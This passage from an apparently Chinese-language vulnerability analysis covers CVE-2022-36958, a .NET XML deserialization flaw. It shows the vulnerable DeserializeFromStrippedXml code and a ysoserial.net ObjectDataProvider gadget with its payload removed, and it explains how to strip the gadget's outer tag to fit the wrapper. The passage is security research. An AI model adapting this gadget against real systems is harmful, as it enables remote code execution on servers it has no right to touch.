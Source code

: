 然后，让我们分析一下`XmlStrippedSerializer.DeserializeFromStrippedXml(String)`。

```bash
public XmlStrippedSerializer(XmlSerializer serializer, string xsdElementName,
string ns, Type type)
{
    this._serializer = serializer;
    this._xsdElementName = xsdElementName;
    this._ns = ns;
    this._type = type;
}
public object DeserializeFromStrippedXml(string strippedXml)
{
    if (strippedXml == null)
    {
        throw new ArgumentNullException("strippedXml");
}
    string s = string.Format("<{0} xmlns='{1}'>{2}</{0}>", this.XsdElementName,
this.Namespace, strippedXml); // [1]
    return this.Serializer.Deserialize(new StringReader(s)); // [2]
}
```

代码段 15 CVE-2022-36958 - XmlStrippedSerializer.DeserializeFromStrippedXml 方法

在\[1\]处，正在创建一个新的 XML 字符串。它具有以下结构：

`<XsdElementName xmlns='Namespace'>ATTACKER-XML</XsdElementName>`

总结一下：

-   攻击者的 XML 采用特定类型的标签包装（参见 `GetSerializerInternal` 方法）。
-   此外，检索到的 Namespace 被插入到 xmlns 属性中。

攻击者控制最终 XML 的一个重要片段及其类型。然而，由于自定义的 XML 包装，`ysoserial.net` 的小工具不能直接使用。生成的小工具如下：

```bash
<ExpandedWrapperOfLosFormatterObjectDataProvider
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
    <ExpandedElement/>
    <ProjectedProperty0>
        <MethodName>Deserialize</MethodName>
        <MethodParameters>
            <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">base64 payload
removed for clarity</anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfLosFormatterObjectDataProvider>
```

代码段 16 CVE-2022-36958 - ysoserial.net ObjectDataProvider gadget

第一个标签等于 `ExpandedWrapperOfLosFormatterObjectDataProvider`。这个标签将由`DeserializeFromStrippedXml`方法自动生成，因此我们需要从生成的负载中将其删除。当我们这样做时，将传递以下 XML 给 `XmlSerializer.Deserialize` 方法：

